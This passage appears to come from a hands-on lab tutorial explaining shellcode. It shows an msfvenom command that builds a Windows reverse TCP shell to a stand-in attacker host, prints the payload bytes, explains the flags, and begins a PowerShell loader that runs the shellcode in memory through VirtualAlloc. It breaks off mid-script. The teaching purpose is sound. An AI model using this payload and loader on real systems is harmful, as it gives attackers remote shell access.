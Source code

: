 AttackBox Terminal

```shell
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0    
```

The above command generates a piece of shellcode using `msfvenom`. Here's what each part means:

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
- `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
- `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
- `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine.  
    

**Where Is the Actual Shellcode**

The actual shellcode in the output above is the hex-encoded byte array, which starts with `0xfc, 0xe8, 0x82`, and so on. The hexadecimal numbers represent the instructions set on the target machine. Computers understand binary (1s and 0s), but hex numbers are just a more human-readable version. So, instead of seeing long strings of 1s and 0s, you see something like `0xfc` instead.  

We can execute this shellcode by loading it into memory and then creating a thread for its execution. In this case, we will use PowerShell to call a few Windows APIs via C# code. Below is a simple PowerShell script that will execute our shellcode:

```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
```